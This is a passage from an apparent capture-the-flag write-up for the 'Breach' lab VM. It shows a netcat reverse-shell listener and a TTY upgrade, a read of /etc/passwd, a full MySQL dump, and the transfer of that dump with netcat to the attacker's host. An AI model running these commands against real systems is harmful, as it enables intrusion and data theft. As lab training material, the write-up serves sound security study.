 ![](/assets/images/breach1/screenshot-14.png)

Before to execute our payload we need to start a netcat listener, and then we run the payload, and we have a reverse shell, the initial shell is limited so I upgraded to a full TTY shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.110.142] from (UNKNOWN) [192.168.110.140] 36846
script -qc /bin/bash /dev/null
tomcat6@Breach:/var/lib/tomcat6$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg 
[1]  + continued  nc -vlnp 443

tomcat6@Breach:/var/lib/tomcat6$ export TERM=xterm-256color
tomcat6@Breach:/var/lib/tomcat6$ export SHELL=/bin/bash
```

Then I listed the system users that use a shell bash.

```console
tomcat6@Breach:/var/lib/tomcat6$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
milton:x:1000:1000:Milton_Waddams,,,:/home/milton:/bin/bash
blumbergh:x:1001:1001:Bill Lumbergh,,,:/home/blumbergh:/bin/bash
```

I did a backup of mysql database, and then I tranferred it to my local machine.

```console
tomcat6@Breach:/var/lib/tomcat6$ mysqldump -u root --all-databases > /tmp/mysqldump.sql
```

```console
root@kali:~$ nc -vlnp 4444 > mysqldump.sql
tomcat6@Breach:/var/lib/tomcat6$ nc 192.168.110.142 4444 < /tmp/mysqldump.sql
```

## Privilege Escalation
### Exposed Passwords
